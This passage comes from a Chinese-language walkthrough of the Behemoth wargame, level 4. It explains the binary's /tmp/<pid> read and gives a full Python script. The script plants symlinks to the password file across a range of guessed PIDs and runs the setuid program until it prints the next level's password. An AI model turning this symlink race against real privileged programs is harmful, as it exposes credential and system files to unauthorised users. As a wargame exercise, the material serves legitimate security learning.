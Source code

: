![behemoth_level3_crack_ret](http://drops.javaweb.org/uploads/images/1c4ef5e2f9f492b69a427fca3147ee5b782bf8d5.jpg)

level 4
=======

* * *

这里执行的结果就给了一个提示，`PID not found!`，看样子程序又是跟`PID`相关了。

![behemoth_level4_login](http://drops.javaweb.org/uploads/images/63c4b18d8d097a947fb8a4c17da865b44942513d.jpg)

从反汇编出来的代码可以大概了解到程序的执行流程。

![behemoth_level4_disassemble](http://drops.javaweb.org/uploads/images/d404d2b974d923961c68d03ca90ed6fd82c75a5d.jpg)

![behemoth_level4_disassemble_2](http://drops.javaweb.org/uploads/images/ac4c32d3d52d4a837919c6fa6b400b5453f0e878.jpg)

程序首先打开`/tmp/pid`文件，然后`sleep(1)`一秒，然后将文件内容输出，这样我们只要将文件软链接到密码文件，就可以让程序打开密码文件，同时输出文件内容了。难点在于，我们如何知道程序的`pid`，虽然_linux 下　pid 是递增的，但是这也无法保证每次增加的就是 1 个单位_。于是，我想到了一个_不优雅_的方法，我们先建立大量的可能的`pid`软链接文件，然后一直执行程序，执行程序的`pid`会落到我们建立的文件范围内的。

`behemoth4.py`

```
#!/usr/bin/env python
#coding=utf-8

import sys, os
passwd_file = "/etc/behemoth_pass/behemoth5"

if len(sys.argv) < 2:
        print "usage %s [start pid num]"
        sys.exit(-1)
try:
        start_pid = int(sys.argv[1])
except ValueError:
        print "usage %s [start pid num]"
        sys.exit(-1)

# 建立 50 个符号链接文件
for i in range(50):
        os.popen("ln -s " + passwd_file + " /tmp/" + str(i+start_pid))

# 执行 1000 次程序
for i in range(1000):
        ret = os.popen("/behemoth/behemoth4")
        ret = ret.read()
        if not "not" in ret:
                print ret
                break

# 删除所有建立的文件
for i in range(50):
        os.popen("rm /tmp/" + str(i+start_pid))

```
